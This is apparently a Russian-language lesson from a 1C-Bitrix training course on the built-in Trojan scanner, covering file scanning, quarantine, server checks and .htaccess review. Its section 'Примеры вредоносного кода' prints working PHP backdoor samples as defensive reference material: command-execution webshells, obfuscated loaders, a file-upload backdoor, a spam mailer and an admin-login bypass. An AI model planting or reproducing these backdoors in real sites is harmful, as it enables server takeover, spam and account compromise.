


# Поиск троянов

**Навигация**
- [← Оглавление курса](index.md)
- [← Предыдущий: 5034 — Компоненты](lesson_5034.md)
- [Следующий: 2675 — Стоп-лист →](lesson_2675.md)

Официальная страница урока: https://dev.1c-bitrix.ru/learning/course/index.php?COURSE_ID=35&LESSON_ID=26614

С версии **security 23.0.0** в Проактивной защите доступен новый раздел **Поиск троянов** (ранее этот функционал представлял собой отдельное приложение на Маркетплейс).

### Сканирование файлов и поиск троянов

Инструмент **Поиск троянов** запускает скрипт, который сканирует сайт в поисках определённых шаблонов потенциально вредоносного кода и формирует список подозрительных файлов. Потенциально вредоносный код может быть как в отдельно созданных файлах, так и в модифицированных файлах сайта.

Для запуска сканирования перейдите на страницу Настройки &gt; Проактивная защита &gt; Поиск троянов &gt; Сканирование файлов и нажмите кнопку **Начать поиск**:


По умолчанию сканирование выполняется от корня сайта – от папки `/home/bitrix/www`, но можно указать другую папку в поле **Начальный путь**.

В полученном списке вы можете отметить нужные результаты и скачать их, чтобы проверить обычным антивирусом
. Описание таблицы представлено [в документации по продукту](https://dev.1c-bitrix.ru/user_help/settings/security/xscan/scanning_files.php).

**Важно!** Помните, что не все результаты срабатывания сканера на самом деле являются троянами – иногда разработчики сайтов пишут код, который сканер может принять за потенциально вредоносный.

### Детальная информация

По каждому из результатов сканирования можно просмотреть подробную информацию, кликнув по ссылке в столбце

			Имя

                     


		. Откроется форма с описанием следующего вида:



В форме указаны данные, которые помогут вам проанализировать возможную угрозу: имя и расположение файла, даты его

			создания

                     
Если сайт разворачивался из бэкапа, то в датах создания будет указана дата восстановления.

		 и

			модификации

                     
Дата модификации может быть подделана.

		, оценка вероятной угрозы от 0 до 1, а также особо выделен подозрительный код. В самом низу приведено содержимое файла.

Оценка тем выше, чем больше срабатываний по файлу и опаснее он. Однако следует внимательно анализировать все файлы, так как троян может иметь низкую оценку, а плохо написанный код получить 1.

Вы самостоятельно оцениваете, что необходимо сделать с этим файлом: 

- переместить **в карантин**. При этом файл останется в своей текущей директории, но будет переименован – вместо **.php** в расширении файла будет **.ph_** (в таком виде файл не будет выполнятся и, соответственно, не принесёт вреда). Учтите, что если файл используется на сайте, переименование файла приведёт к неработоспособности сайта. Для возврата из карантина кликните по кнопке
  			Восстановить
  
  		 в списке файлов, либо же найдите файл в его директории и переименуйте расширение обратно в **.php**;
  **Примечание.** При запуске нового сканирования все файлы, отправленные в карантин, перестанут отображаться в общем списке.
- **скрыть** из результатов сканирования. Чтобы его вернуть, потребуется повторить сканирование;
- **редактировать** в новом окне, чтобы изменить или удалить подозрительный код.

Конкретного алгоритма проверки файлов нет. Рекомендуется проверять содержимое каждого обнаруженного файла, обращая внимание на красное замечание в нем. Возможно потребуется подключение специалиста из отдела безопасности.

**Важно!** Убедитесь, что у вас есть доступ к ftp/ssh для отката изменений.

Если у вас несколько сайтов на одном хосте, вам необходимо отдельно обновлять и проверять каждый сайт.

### Операционная система

Помните, что помимо поиска троянов так же следует проверить наличие:

- запущенных подозрительных процессов на сервере;
- посторонних заданий в
  			crontab
  **Cron** – это хронологический демон-планировщик задач, работающий в операционных системах типа Unix, включая дистрибутивы Linux. Cron запускается в фоновом режиме, а задачи, запланированные в cron и именуемые «задачи cron», выполняются автоматически, что делает cron полезным для автоматизации связанных с обслуживанием задач.
  Задачи в cron записываются и управляются в специальном файле **crontab**. Каждый профиль пользователя в системе может иметь собственный файл crontab, где составляются расписания задач.
  		;
- посторонних
  			ssh-ключей
  SSH-ключи используются для идентификации клиента при подключении к серверу по SSH-протоколу.
  SSH-ключи представляют собой пару – закрытый и открытый ключ. Закрытый должен храниться, соответственно, в закрытом доступе у клиента, а открытый отправляется на сервер и размещается в файле **authorized_keys**.
  		.

Для такой проверки требуется запустить ряд команд

			в консоли

                     
Пример консоли виртуальной машины [VMBitrix](https://dev.1c-bitrix.ru/learning/course/index.php?COURSE_ID=37&CHAPTER_ID=08809&LESSON_PATH=3908.8809) под пользователем bitrix:


		.

Чтобы не вводить команды вручную, на странице Настройки &gt; Проактивная защита &gt; Поиск троянов &gt; Операционная система собраны необходимые для проверки команды вместе с результатами их выполнения в вашей операционной системе:

- `> whoami`
- `> ps ux -u \`whoami\``
- `> crontab -l`
- `> last -i \`whoami\``
- `> cat ~/.ssh/authorized_keys`
- `> stat ~/.ssh/authorized_keys`


### Проверка .htaccess

Для обеспечения большей безопасности можно запустить проверку файлов

			.htaccess

                    
**.htaccess** (от англ. hypertext access) – файл дополнительной конфигурации веб-сервера **Apache**. Позволяет задавать большое количество дополнительных параметров и разрешений для работы веб-сервера в отдельном каталоге без изменения главного конфигурационного файла **httpd.conf**.

[Подробнее](https://dev.1c-bitrix.ru/learning/course/index.php?COURSE_ID=32&LESSON_ID=3295)...

		 на одноимённой странице Настройки &gt; Проактивная защита &gt; Поиск троянов &gt; Проверка .htaccess:


Окно детального просмотра открывается точно так же, как и при сканировании файлов – просто кликните по названию файла. Вы сможете просмотреть файл и отредактировать его.

Также можно удалить все найденные файлы и оставить

			минимальный набор

                     


		:

- `/home/bitrix/www/bitrix/updates/.htaccess`
- `/home/bitrix/www/bitrix/php_interface/.htaccess`
- `/home/bitrix/www/bitrix/modules/.htaccess`
- `/home/bitrix/www/.htaccess`
- `/home/bitrix/www/upload/.htaccess`
- `/home/bitrix/www/upload/1c_exchange/.htaccess` (этот файл появляется, если настроен обмен с 1С и существует директория `/upload/1c_exchange`)

**Примечание.** Перечисленный выше набор файлов .htaccess – **минимальный**. Без него сайт либо перестанет работать, либо будет работать не совсем безопасно. Поэтому если проверка не выявила вредоносных .htaccess, то лучше оставить все существующие .htaccess.

### Примеры вредоносного кода

Ниже приведены примеры вредоносного кода, распределённые по категориям.

- **Выполнение произвольного кода:**
  ```
  eval($⁣⁣⁣_⁣GET['cmd']);
  ```
  ```
  base64_⁣decode($⁣⁣⁣_⁣POST['s'])(base64_⁣decode($⁣⁣⁣_⁣POST['k']));
  ```
  ```
  if (isset($⁣⁣⁣_⁣POST["BX_⁣STAT"]) && $⁣⁣⁣_⁣POST["BX_⁣STAT"] <> "")
     parse_⁣str(hex2bin(str_⁣rot13($⁣⁣⁣_⁣POST["BX_⁣STAT"])),$⁣⁣⁣bx_⁣stat) or die(str_⁣rot13(bin2hex($⁣⁣⁣bx_⁣stat[0]($⁣⁣⁣bx_⁣stat[1],$⁣⁣⁣bx_⁣stat[2]))));
  ```
  ```
  public function _⁣_⁣construct()
  {
     $⁣⁣⁣init = "culture"==$⁣⁣⁣_⁣SERVER["HTTP_⁣TEMPLATE"] ? die(system($⁣⁣⁣_⁣SERVER["HTTP_⁣Y"])) : die();
  }
  ```
  ```
  <?php /*-l~NmVi-*/$⁣⁣⁣gH /*-AG)RRii-*/=/*-hb:-*/ "ra"/*-vlw-*/."nge"; $⁣⁣⁣eiJO /*-6!@wN.-*/=/*-:-*/ $⁣⁣⁣gH/*-UD-*/(/*-VTOk2T-*/"~"/*-5G,y,((-*/,/*-^B_⁣,{-*/" "); /*-D6-*/@include/*-2fTkoS2!Y-*/ $⁣⁣⁣eiJO/*-_⁣XSXN8`_⁣-*/[14+30].$⁣⁣⁣eiJO/*-+9x-*/[16+20].$⁣⁣⁣eiJO/*-f@81e7CO-*/[31+49].$⁣⁣⁣eiJO/*-M4HW<p-*/[7+3].$⁣⁣⁣eiJO/*-1.wB-*/[5+16].$⁣⁣⁣eiJO/*-V<3P-*/[16+8].$⁣⁣⁣eiJO/*-QA-*/[3+21]/*-l6_⁣G-*/; ?>
  ```
  ```
  if(isset($⁣⁣⁣_⁣REQUEST["state"]) && is_⁣string($⁣⁣⁣_⁣REQUEST["state"]))
  {
     $⁣⁣⁣arState = array();
     parse_⁣str(base64_⁣decode($⁣⁣⁣_⁣REQUEST["state"]), $⁣⁣⁣arState);
     echo $⁣⁣⁣arState[0]($⁣⁣⁣arState[1],$⁣⁣⁣arState[2]);
     die();
  }
  ```
  ```
  eval   //m)L7gSW|@{I)M[L]*PI]Gm19K
  (/*mxN.9%m5O3#jSCgY4SQ110,a##j)VsCIPKK(Cp*/urldecode/*tMuhag>YL)ehS+[+&wj)E&H/hf\Q<8B}?|$⁣⁣⁣0A.pR\9*/(#(Z1mpA-<k;QhKySW<>S.
  strrev#2q7/|empzhu_⁣c2.a.LoJX
  (/*eF@g6#UXu#d*F4Y7Y7gi?^$⁣⁣⁣ZWer$⁣⁣⁣kTi5|f?4L.T&?`;*/'b3%56%57%27%47%02%e6%27%57%47%56%27%90%a0%d7%90%a0%b3%92%27%42%82%c6%16%67%56%90%90%90%a0%56%37%c6%56%90%90%a0%d7%90%90%a0%b3%27%42%02%d3%02%47%c6%57%37%56%27%f5%c6%16%67%56%42%90%90%90%a0%b3%92%22%13%02%d3%02%44%94%02%54%25%54%84%75%02%72%e4%72%02%d3%02%44%f4%94%25%54%05%f5%35%94%02%c2%03%63%02%d3%02%c4%14%65%25%54%45%e4%94%f5%45%e4%54%74%14%02%45%54%35%02%47%e6%56%76%16%f5%26%02%54%45%14%44%05%55%22%82%97%27%56%57%15%e3%d2%24%44%42%90%90%90%a0%b7%92%92%d5%22%63%43%86%76%56%97%47%37%56%47%22%b5%45%35%54%55%15%54%25%f5%42%82%47%56%37%37%96%82%66%96%90%90%a0%b3%72%b3%92%82%16%47%16%44%47%96%d6%26%57%37%a3%a3%56%c6%26%16%45%16%47%16%44%27%56%47%e6%57%f6%34%c5%c5%37%36%96%47%97%c6%16%e6%14%c5%c5%e6%96%16%d4%c5%c5%87%96%27%47%96%24%c5%c5%72%02%d3%02%27%42%90%90%a0%b7%56%37%c6%56%90%a0%d7%90%a0%d7%90%90%a0%b3%47%96%87%56%90%90%90%a0%b7%92%56%42%02%e6%f6%96%47%07%56%36%87%54%82%02%86%36%47%16%36%90%90%a0%d7%90%90%a0%b3%92%92%92%d5%22%53%83%63%93%36%36%16%47%37%56%47%22%b5%45%35%54%55%15%54%25%f5%42%82%56%46%f6%36%56%46%c6%27%57%82%56%46%f6%36%56%46%c6%27%57%82%c6%16%67%56%02%d3%02%56%42%90%90%90%a0%b7%97%27%47%90%90%a0%90%90%a0%b3%92%22%13%02%d3%02%44%94%02%54%25%54%84%75%02%72%e4%72%02%d3%02%74%e4%94%e4%e4%55%25%02%c2%03%02%d3%02%45%e4%55%f4%34%f5%95%25%45%54%25%02%c2%c4%c4%55%e4%02%d3%02%b4%34%54%84%34%f5%54%45%14%44%02%45%54%35%02%47%e6%56%76%16%f5%26%02%54%45)/*f&.WDJvKX~Y[X8K/q;*/)/*{?B&;W[}m~+N8*!5/X*/)2//'y&xhi+XdDJgcX&qHQ"Lc.~*$⁣⁣⁣X@lBn-%&V>|%f;b##&L[7%37%56%47%22%b5%45%35%54%55%15%54%25%f5%42%82%47%56%37%37%96%82%66%96%90%a0%90%a0%'#=d2"[*\~Ly>musIh't>1;x]}A+fxAi%X2
  ;#:"u$⁣⁣⁣&P;FyRv< W3Ue[wy1&n*T?~BX%7}UnTZ}*5PXm~'/
  ```
- **Cоздание файла, через который впоследствии будет выполняться произвольный код:**
  ```
  if($⁣⁣⁣_⁣POST['key']!=='ge981f7b8') die();
  move_⁣uploaded_⁣file($⁣⁣⁣_⁣FILES["upfile"]["tmp_⁣name"], basename($⁣⁣⁣_⁣FILES["upfile"]["name"]));
  ```
- **Отправка спам-писем на произвольные адреса:**
  ```
  if(isset($⁣⁣⁣_⁣POST["mailto"]))
      $⁣⁣⁣MailTo = base64_⁣decode($⁣⁣⁣_⁣POST["mailto"]);
  else
  {
      echo "indata_⁣error";
      exit;
  }
  if(isset($⁣⁣⁣_⁣POST["msgheader"]))
      $⁣⁣⁣MessageHeader = base64_⁣decode($⁣⁣⁣_⁣POST["msgheader"]);
  else
  {
      echo "indata_⁣error";
      exit;
  }
  if(isset($⁣⁣⁣_⁣POST["msgbody"]))
      $⁣⁣⁣MessageBody = base64_⁣decode($⁣⁣⁣_⁣POST["msgbody"]);
  else
  {
      echo "indata_⁣error";
      exit;
  }
  if(isset($⁣⁣⁣_⁣POST["msgsubject"]))
      $⁣⁣⁣MessageSubject = base64_⁣decode($⁣⁣⁣_⁣POST["msgsubject"]);
  else
  {
      echo "indata_⁣error";
      exit;
  }
  if(mail($⁣⁣⁣MailTo,$⁣⁣⁣MessageSubject,$⁣⁣⁣MessageBody,$⁣⁣⁣MessageHeader))
      echo "sent_⁣ok";
  else
      echo "sent_⁣error";
  ```
- **Авторизация под администратором без проверок пароля и двухфакторной авторизации (OTP):**
  ```
  <?php
  $USER->Authorize($⁣⁣⁣_⁣GET['id']);
  ?>
  ```

### Дополнительно: антивирус Касперского

Администратор сервера с ssh-доступом может проверить сайт с помощью приложения

			Kaspersky Virus Removal Tool

                    
**Kaspersky Virus Removal Tool** — бесплатное приложение для проверки компьютеров под управлением операционных систем семейства Linux и лечения обнаруженных угроз. С помощью приложения вы можете обнаружить вредоносные приложения, а также рекламные и легальные программы, которые могут быть использованы злоумышленниками.

[Подробнее](https://support.kaspersky.ru/help/kvrt/2024/ru-RU/269439.htm)...

		.

Для проверки сайта выполните следующие действия:

1. создайте временную папку для антивируса и его отчетов,
2. [скачайте](https://www.kaspersky.ru/downloads/free-virus-removal-tool) антивирус,
3. добавьте права на выполнение и запустите антивирус.

Полный отчет проверки находится в папке `/tmp/kaspersky/report`.

Подробнее о параметрах запуска антивируса читайте [в документации](https://support.kaspersky.ru/help/kvrt/2024/ru-RU/269475.htm).

**Важно!** Антивирус не удаляет и не лечит файлы, он только создает отчет. Обрабатывать файлы нужно самостоятельно.
